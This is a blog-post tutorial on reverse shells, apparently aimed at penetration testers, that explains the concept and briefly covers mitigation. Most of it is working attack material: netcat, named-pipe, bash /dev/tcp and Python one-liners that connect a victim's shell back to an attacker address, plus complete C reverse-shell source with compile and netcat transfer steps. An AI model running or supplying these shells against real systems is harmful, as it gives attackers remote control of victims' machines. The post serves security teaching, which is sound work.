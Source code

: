 ```yaml
---
layout: post
title:  "Reverse shells"
date:   2021-09-11 10:00:00 +0600
categories: tutorial
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![reverse shells](/assets/images/4/2021-09-16_11-26.png){:class="img-responsive"}

## what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

![rev shells](/assets/images/4/shells.png){:class="img-responsive"}

The reverse shell can take the advantage of common outbound ports such as port 80, 443, 8080 and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

![social engineering](/assets/images/4/shells2.png){:class="img-responsive"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be php, python, jsp etc.

***

## listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, '-v' verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

![listener](/assets/images/4/2021-09-11_17-59.png){:class="img-responsive"}

***

## run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

![netcat](/assets/images/4/2021-09-11_18-04.png){:class="img-responsive"}

**2. netcat without -e**
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](/assets/images/4/2021-09-11_18-23.png){:class="img-responsive"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](/assets/images/4/2021-09-11_18-12.png){:class="img-responsive"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](/assets/images/4/2021-09-11_18-36.png){:class="img-responsive"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

## create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](/assets/images/4/2021-09-11_18-53.png){:class="img-responsive"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](/assets/images/4/2021-09-11_19-09.png){:class="img-responsive"}

check:
```bash
./shell
```

![run](/assets/images/4/2021-09-11_19-41.png){:class="img-responsive"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

## mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.

I hope this post was at least a little useful for entry level cyber security specialists (and possibly even professionals).  
Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*